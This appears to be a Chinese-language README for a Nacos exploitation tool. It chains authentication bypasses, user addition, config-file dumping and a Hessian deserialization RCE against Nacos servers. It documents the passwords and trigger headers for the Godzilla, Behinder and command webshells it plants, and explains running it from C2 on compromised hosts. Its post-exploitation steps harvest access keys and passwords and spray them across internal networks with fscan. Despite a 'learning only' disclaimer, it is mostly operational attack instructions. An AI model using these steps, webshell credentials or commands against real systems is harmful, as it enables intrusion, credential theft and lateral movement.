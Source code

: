 # HKEcho Nacos快速利用工具 v0.1

注意：工具仅供学习使用，请勿滥用，否则后果自负！

```
        ~~||HKEcho Nacos快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置Referer:https://www.google.com/
```

工具文件夹中HKEcho_Nacos.exe，nacosleak.exe均已通过upx压缩加壳减小体积。担心后门可自行编译或前往原项目地址下载。

## 原理

本工具支持检测以下漏洞：

```
0、未授权查看用户列表

以下漏洞顺序执行直到获取到一个账号：
1、检测nacos默认口令
2、任意用户添加
3、任意用户添加UA_Bypass
4、任意用户添加末尾斜杠绕过
5、默认JWT任意用户添加
6、JWT_Secret_Key硬编码绕过
7、Identity硬编码绕过
8、QVD-2023-6271身份认证绕过
一旦某个漏洞获取账号密码后，会调用a1phaboy师傅写的nacosleak读取配置文件

9、Nacos_Jraft_Hessian反序列化漏洞
程序会调用c0olw师傅写的NacosRce打一遍Jraft_Hessian反序列化漏洞（本工具在调用这个NacosRce工具前会判断Java环境，若不存在，则告警不执行）
```

## 安装

```
pip install -r requirements.txt
```

## 食用

```
HKEcho_Nacos>python HKEcho_Nacos.py -h
* * * * * * * * * * * * * * * * * * * * * * * *
        ~~||HKEcho Nacos快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置Referer:https://www.google.com/
* * * * * * * * * * * * * * * * * * * * * * * *
usage: HKEcho_Nacos.py [-h] [-u URL] [-f FILENAME]

optional arguments:
  -h, --help   show this help message and exit
  -u URL       要检查漏洞的单个URL:http://127.0.0.1:8848
  -f FILENAME  批量检测,包含URL的文本文件
```

**1、单个目标检测：**

```
python HKEcho_Nacos.py -u http://192.2xx.2xx.1x:8848
```

![image-20231114180219893](D:\Desktop\IDEA\Projects\python\HKEcho_Nacos\images\image-20231114180219893.png)

**2、批量目标检测**：

新建txt文件，一行放一个Nacos的URL

```
python HKEcho_Nacos.py -f target.txt
```

![image-20231114191212752](D:\Desktop\IDEA\Projects\python\HKEcho_Nacos\images\image-20231114191212752.png)

**3、特殊场景下使用**

注意：HKEcho_Nacos.exe命令行界面在win11下图形加载正常，其余系统可能存在显示问题，不影响程序使用

上传python打包的HKEcho_Nacos.exe到C2上使用，注意，单纯上传HKEcho_Nacos.exe运行，会对内网目标nacos添加一个账号，不会对目标进行配置文件导出和检测Nacos_Jraft_Hessian反序列化漏洞。若想导出配置文件，可单独上传nacosleak.exe进行读取。

![image-20231115095419466](D:\Desktop\IDEA\Projects\python\HKEcho_Nacos\images\image-20231115095419466.png)

![image-20231115095310757](D:\Desktop\IDEA\Projects\python\HKEcho_Nacos\images\image-20231115095310757.png)

或者如下图直接将HKEcho_Nacos.exe与nacosleak.exe通过C2上传到目标服务器上同一目录下，直接执行HKEcho_Nacos.exe会自动调用nacosleak.exe

![image-20231115095608455](D:\Desktop\IDEA\Projects\python\HKEcho_Nacos\images\image-20231115095608455.png)

同理，若想检测检测Nacos_Jraft_Hessian反序列化漏洞，同理可以将NacosRce压缩后上传到目标服务器上同一目录下，不过不建议这样，NacosRce太大了。

![image-20231115100233567](D:\Desktop\IDEA\Projects\python\HKEcho_Nacos\images\image-20231115100233567.png)

## Nacos后利用

### Nacos配置文件

上述利用完成后，会在/results/ip_port/public目录下生成目标站点的配置文件，a1phaboy师傅特别将ak/sk,password关键字提取了出来：

![image-20231114183758207](D:\Desktop\IDEA\Projects\python\HKEcho_Nacos\images\image-20231114183758207.png)

我们可以在内网可以通过该密码本快速爆破，比如利用fscan等工具

```
fscan.exe -h 192.168.1.1/24 -o 192.168.1.txt -pwda 收集到的新密码 -usera 收集到的新用户
```

### Nacos Hessian 反序列化漏洞

一、冰蝎内存马：

```
1、需要设置请求头x-client-data:rebeyond
2、设置Referer:https://www.google.com/
3、路径随意
4、密码rebeyond
```

二、哥斯拉内存马：

```
1、需要设置请求头x-client-data:godzilla
2、设置Referer:https://www.google.com/
3、路径随意
4、密码是pass 和 key
```

三、CMD内存马：

```
1、需要设置请求头x-client-data:cmd
2、设置Referer:https://www.google.com/
3、请求头cmd:要执行的命令
```

#### **后渗透**

后渗透利用pap1rman师傅的哥斯拉nacos后渗透插件-postnacos

MakeToken

![250575224-7819b38c-e558-49b0-bce7-dd6d9b5a185b](D:\Desktop\IDEA\Projects\python\HKEcho_Nacos\images\250575224-7819b38c-e558-49b0-bce7-dd6d9b5a185b.png)

将生成后的token 保存进浏览器cookie 格式 token:{xxx}

![250532141-60089b8d-fa3d-4584-bc16-90dc5423d486](D:\Desktop\IDEA\Projects\python\HKEcho_Nacos\images\250532141-60089b8d-fa3d-4584-bc16-90dc5423d486.png)

**Adduser**

![250532121-2a110b94-4ff7-4c09-a456-6d090f10ac3f](D:\Desktop\IDEA\Projects\python\HKEcho_Nacos\images\250532121-2a110b94-4ff7-4c09-a456-6d090f10ac3f.png)

添加一个账号后，用nacosleak单独把配置文件读取下来。

```
nacosleak.exe -t http://192.2xx.2xx.21:8848 -u audit2 -p Password123!
```

## 测试环境

在github下载有漏洞的版本
https://github.com/alibaba/nacos/releases

![image-20231115102526342](D:\Desktop\IDEA\Projects\python\HKEcho_Nacos\images\image-20231115102526342.png)

![image-20231115102620390](D:\Desktop\IDEA\Projects\python\HKEcho_Nacos\images\image-20231115102620390.png)

## 参考链接

致谢：

https://github.com/Pizz33/nacos_vul

https://github.com/c0olw/NacosRce

https://github.com/pap1rman/postnacos